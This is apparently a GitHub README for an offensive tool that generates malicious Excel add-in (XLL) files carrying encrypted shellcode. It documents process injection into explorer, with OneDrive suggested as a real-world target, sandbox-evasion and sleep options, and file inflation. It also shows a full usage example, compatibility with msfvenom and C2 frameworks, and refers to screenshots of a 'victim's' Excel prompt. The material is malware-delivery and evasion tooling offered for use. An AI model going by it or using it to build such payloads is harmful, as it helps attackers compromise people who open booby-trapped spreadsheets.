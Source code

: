 # Xll-Payload-Generator

Payload generator for XLL files (Excel Add in). Usage includes AES encryption, process injection, sleep, sandbox, inflate. This does not currently bypass anything but does execute. 

Process Injection defaults to explorer, but I think OneDrive would be the best targets in a real world scenario.

Todo:
Direct Syscalls
Alternative Encryption Methods
Packing into ZIP/ISO

#### Requirements
> g++

## Credits

[@kyle41111](https://github.com/kyle41111)

## Usage
```
usage: XllGen.py [-h] -i INPUT [-t {aes,none}] [-k KEY] [-s] [--sand] [--inflate INFLATE] -o OUTPUT [-p PROCESS]

Encrypt a binary file and generate C++ code.

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Path to the input binary file
  -t {aes,none}, --type {aes,none}
                        Encryption type (aes or none)
  -k KEY, --key KEY     Will generate if not supplied. Encryption key (128-bit AES key in hexadecimal)
  -s, --sleep           Add sleep function
  --sand                Add sandbox function
  --inflate INFLATE, -m INFLATE
                        Inflate Size (Specify MB Size)
  -o OUTPUT, --output OUTPUT
                        Output XLL file name
  -p PROCESS, --process PROCESS
                        Name of the target process (default: 'explorer')
```

### Testing with msfvenom
Must have EXITFUNC=thread  
Most C2's have this built in

## Compile Example
![Compile Example](pics/generator.png)
   
```.\XllGen.py -i .\test.bin -t aes --sleep -s -o test -p notepad -m 100```  
        
## Victim's Excel Prompt
![Victim's Excel Prompt](pics/executionprompt.png)
         
## Example Execution
![Example Execution](pics/example.gif)
